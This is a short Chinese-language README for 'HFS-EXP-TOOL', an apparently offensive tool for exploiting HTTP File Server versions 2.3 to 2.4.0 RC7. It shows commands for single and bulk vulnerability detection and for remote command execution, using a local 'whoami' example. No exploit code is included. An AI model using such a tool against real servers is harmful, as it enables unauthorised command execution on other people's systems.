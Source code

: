 # HFS-EXP-TOOL

HTTP File Server 综合利用工具，目标版本：
- 	HFS 2.3 beta
- 	HFS 2.3d
-   HFS 2.3m
-   HFS 2.3k
-   HFS 2.4.0 RC6
-   HFS 2.4.0 RC7

使用方法： 
- hfs-exp-tool.exe --detect-url <protocol:host:port>
- hfs-exp-tool.exe --detect-file <filename>
- hfs-exp-tool.exe --exp <protocol:host:port> <command> [arguments...]

示例：

批量检测

```
.\hfs-exp-tool.exe --detect-file .\url.txt
```

单独检测

```
.\hfs-exp-tool.exe --detect-url http://127.0.0.1:8003
```

命令执行

```
.\hfs-exp-tool.exe --exp http://127.0.0.1:8003 "whoami"
```
